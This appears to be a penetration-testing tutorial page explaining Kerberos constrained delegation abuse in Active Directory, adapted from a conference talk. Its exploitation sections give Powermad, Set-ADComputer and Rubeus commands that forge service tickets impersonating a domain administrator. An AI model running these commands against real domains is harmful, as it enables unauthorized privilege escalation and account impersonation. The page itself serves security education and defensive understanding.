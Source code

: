 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Constrained

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><img src="../../../../../.gitbook/assets/cd_wireshark.png" alt=""><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><img src="../../../../../.gitbook/assets/cd_exploit_1.png" alt=""><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).

{% code overflow="wrap" %}
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/cd_exploit_2.png" alt=""><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/cd_exploit_3.png" alt=""><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><img src="../../../../../.gitbook/assets/cd_withPT_diffs.png" alt=""><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```
{% endcode %}

If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><img src="../../../../../.gitbook/assets/cd_pt_exploit_1.png" alt=""><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><img src="../../../../../.gitbook/assets/cd_pt_exploit_2.png" alt=""><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><img src="../../../../../.gitbook/assets/cd_pt_services.png" alt=""><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Video Lecture" %}
{% embed url="https://www.youtube.com/watch?v=gzqq2r6cZjc" %}
{% endtab %}

{% tab title="BlackHat Talk" %}
{% embed url="https://www.youtube.com/watch?v=Y2Wh2e6eZVc" %}
{% endtab %}
{% endtabs %}

[^1]: User Account Control
